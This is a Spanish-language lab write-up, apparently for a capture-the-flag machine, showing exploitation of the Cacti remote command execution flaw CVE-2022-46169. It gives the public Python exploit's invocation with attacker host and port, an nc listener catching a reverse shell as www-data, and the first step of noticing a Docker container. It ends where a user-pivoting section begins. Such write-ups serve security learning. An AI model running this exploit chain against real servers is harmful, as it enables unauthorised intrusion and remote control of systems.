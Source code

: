 Este [exploit](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) permite la ejecución de un shell inverso en nuestra máquina atacante a través de una vulnerabilidad de ejecución remota de comandos (RCE).

Descargamos el exploit de Python y lo ejecutamos para revisar sus parámetros.

```bash
❯ python3 CVE-2022-46169.py -h
Usage: CVE-2022-46169.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL_TARGET, --url=URL_TARGET
                        The url target
  --LHOST=LHOST         Your ip
  --LPORT=LPORT         The listening port
```

Nos ponemos a la escucha en el puerto 443 y ejecutamos el exploit, proporcionando la URL, la dirección IP local y el puerto local.

```bash
❯ python3 CVE-2022-46169.py -u http://10.10.11.211/ --LHOST=10.10.14.41 --LPORT=443
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

Hemos obtenido una shell como el usuario `www-data`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.11.211] 42412
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ whoami
whoami
www-data
```

Para obtener una shell más interactiva, realizamos un [tratamiento de la TTY](https://r1vs3c.github.io/posts/tratamiento-tty/).

## Pivoting de usuario

---

Al ejecutar el comando `hostname -I`, nos damos cuenta de que estamos en un contenedor Docker y no en la máquina real.

```bash
www-data@50bca5e748b0:/var/www/html$ hostname 
50bca5e748b0
www-data@50bca5e748b0:/var/www/html$ hostname -I
172.19.0.3
```
